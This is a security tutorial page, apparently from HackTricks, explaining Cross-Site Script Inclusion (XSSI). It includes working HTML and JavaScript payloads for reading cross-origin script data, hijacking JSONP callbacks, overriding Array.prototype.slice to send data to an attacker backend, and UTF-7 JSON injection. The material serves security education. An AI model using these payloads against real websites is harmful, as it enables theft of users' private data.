 # XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**Cross-Site Script Inclusion (XSSI)** is a vulnerability that arises from the nature of the `script` tag in HTML. Unlike most resources, which are subject to the **Same-Origin Policy (SOP)**, scripts can be included from different domains. This behavior is intended to facilitate the use of libraries and other resources hosted on different servers but also introduces a potential security risk.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Scripts are exempt from the **Same-Origin Policy**, allowing them to be included across domains.
- **Data Exposure**: An attacker can exploit this behavior to read data loaded via the `script` tag.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** is particularly relevant for dynamic JavaScript or **JSON with Padding (JSONP)**. These technologies often use "ambient-authority" information (like cookies) for authentication. When a script request is made to a different host, these credentials (e.g., cookies) are automatically included in the request.
- **Authentication Token Leakage**: If an attacker can trick a user's browser into requesting a script from a server they control, they might be able to access sensitive information contained in these requests.

### Types

1. **Static JavaScript** - This represents the conventional form of XSSI.
2. **Static JavaScript with Authentication** - This type is distinct because it requires authentication to access.
3. **Dynamic JavaScript** - Involves JavaScript that dynamically generates content.
4. **Non-JavaScript** - Refers to vulnerabilities that do not involve JavaScript directly.

**The following information is a sumary of [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Check it for further details.

### Regular XSSI

In this approach, private information is embedded within a globally accessible JavaScript file. Attackers can identify these files using methods like file reading, keyword searches, or regular expressions. Once located, the script containing private information can be included in malicious content, allowing unauthorized access to sensitive data. An example exploitation technique is shown below:

```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
  alert(JSON.stringify(confidential_keys[0]))
</script>
```

### Dynamic-JavaScript-based-XSSI and Authenticated-JavaScript-XSSI

These types of XSSI attacks involve confidential information being dynamically added to the script in response to a user's request. Detection can be performed by sending requests with and without cookies and comparing the responses. If the information differs, it may indicate the presence of confidential information. This process can be automated using tools like the [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

If confidential data is stored in a global variable, it can be exploited using similar methods to those used in Regular XSSI. However, if the confidential data is included in a JSONP response, attackers can hijack the callback function to retrieve the information. This can be done by either manipulating global objects or setting up a function to be executed by the JSONP response, as demonstrated below:

```html
<script>
  var angular = function () {
    return 1
  }
  angular.callbacks = function () {
    return 1
  }
  angular.callbacks._7 = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script
  src="https://site.tld/p?jsonp=angular.callbacks._7"
  type="text/javascript"></script>
```

```html
<script>
  leak = function (leaked) {
    alert(JSON.stringify(leaked))
  }
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```

For variables not residing in the global namespace, _prototype tampering_ can sometimes be exploited. This technique leverages JavaScript's design, where code interpretation involves traversing the prototype chain to locate the called property. By overriding certain functions, such as `Array`'s `slice`, attackers can access and leak non-global variables:

```javascript
Array.prototype.slice = function () {
  // leaks ["secret1", "secret2", "secret3"]
  sendToAttackerBackend(this)
}
```

Further details on attack vectors can be found in the work of Security Researcher [Sebastian Lekies](https://twitter.com/slekies), who maintains a list of [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Takeshi Terada's research introduces another form of XSSI, where Non-Script files, such as CSV, are leaked cross-origin by being included as sources in a `script` tag. Historical instances of XSSI, such as Jeremiah Grossman’s 2006 attack to read a complete Google address book and Joe Walker’s 2007 JSON data leak, highlight the severity of these threats. Additionally, Gareth Heyes describes an attack variant involving UTF-7 encoded JSON to escape the JSON format and execute scripts, effective in certain browsers:

```javascript
;[
  {
    friend: "luke",
    email:
      "+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
  },
]
```

```html
<script
  src="http://site.tld/json-utf7.json"
  type="text/javascript"
  charset="UTF-7"></script>
```

{{#include ../banners/hacktricks-training.md}}

